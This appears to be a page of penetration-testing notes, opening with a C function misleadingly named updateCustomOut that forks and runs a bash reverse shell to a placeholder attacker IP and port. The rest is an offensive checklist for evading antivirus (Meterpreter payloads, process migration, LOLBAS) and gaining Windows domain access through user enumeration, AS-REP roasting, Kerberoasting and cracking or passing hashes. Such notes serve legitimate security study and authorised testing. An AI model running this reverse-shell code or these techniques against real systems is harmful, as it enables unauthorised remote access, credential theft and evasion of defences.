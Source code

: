 ```c
{
}

#define LHOST "<IP>"
#define LPORT "<PORT>"

void updateCustomOut()
{
    int pipefd[2];
    pid_t pid;

    if (pipe(pipefd) == -1) {
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        close(pipefd[0]);
        dup2(pipefd[1], STDOUT_FILENO);
        execl("/bin/bash", "/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/" LHOST "/" LPORT " 0>&1 &", NULL);
        exit(EXIT_FAILURE);
    } else {
        close(pipefd[1]);
        wait(NULL);
    }
}
```
## [[Upgrade Shell]] 

## Antivirus killing shell?
- User [[Meterpreter]] to upload and execute a secondary payload. 
- Migrate to another process
- LOLBAS
## Initial Access Windows
### Domain Controller?
- Enumerate Users with [[rpcclient]] - then use [[Kerbrute]] to verify they are valid
### Have usernames? - [[AS-REP Roasting]]
### Have Valid Credentials? - [[Kerberoasting]]
### Have Hashes? - Crack or Pass 'em
[[crackmapexec]] [[Hashcat]] [[JohnTheRipper]] 
### Command Execution Verification - Ping Check
```bash
tcpdump -i any -c5 icmp
```
# Post Access
